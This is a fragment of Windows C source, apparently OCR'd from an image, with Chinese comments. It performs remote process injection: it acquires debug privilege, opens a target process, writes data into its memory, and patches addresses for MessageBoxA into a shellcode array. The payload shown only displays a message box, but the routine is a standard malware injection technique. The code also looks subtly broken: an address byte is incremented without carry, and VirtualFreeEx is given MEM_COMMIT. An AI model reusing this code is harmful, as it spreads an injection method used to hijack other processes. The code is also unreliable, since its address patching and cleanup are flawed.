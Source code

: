 			}
		}
	}

	if (EnableDebugPriv(SE_DEBUG_NAME))   //获取调试权限
    {
		fprintf(stderr,"Add Privilege error\n");

		return -1;
    }

	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid); //获取进程句柄
	if(hProcess == NULL) 
    { 
        fprintf(stderr,"\n获取进程句柄错误%d",GetLastError()); 
        return -1; 
    }
 
	//申请120字节的数据空间,并写入我们需要的数据
    lpRemoteBuf = VirtualAllocEx(hProcess, NULL, 120, MEM_COMMIT, PAGE_READWRITE);
    if(WriteProcessMemory(hProcess, lpRemoteBuf, data, 120, &dwHasWrite)) 
    { 
        if(dwHasWrite != 120) 
        { 
            VirtualFreeEx(hProcess,lpRemoteBuf,120,MEM_COMMIT); 
            CloseHandle(hProcess); 
            return -1; 
        } 
 
    }else 
    { 
        printf("\n写入远程进程内存空间出错%d。",GetLastError()); 
        CloseHandle(hProcess); 
        return -1; 
    }

	temp = (int)lpRemoteBuf;   //数据所在首地址
	addr[0] = temp&0xff;
	addr[1] = temp>>8&0xff;
	addr[2] = temp>>16&0xff;
	addr[3] = temp>>24&0xff;

	shellcode[11] = addr[0];  //"test" 的地址
	shellcode[12] = addr[1];
	shellcode[13] = addr[2];
	shellcode[14] = addr[3];

	shellcode[16] = addr[0]+8;//"所要显示的字符串首地址"
	shellcode[17] = addr[1];
	shellcode[18] = addr[2];
	shellcode[19] = addr[3];

	temp = (int)bkINode->address; //MessageBoxA的地址
	addr[0] = temp&0xff;
	addr[1] = temp>>8&0xff;
	addr[2] = temp>>16&0xff;
	addr[3] = temp>>24&0xff;
	shellcode[23] = addr[0];
	shellcode[24] = addr[1];
	shellcode[25] = addr[2];
	shellcode[26] = addr[3];
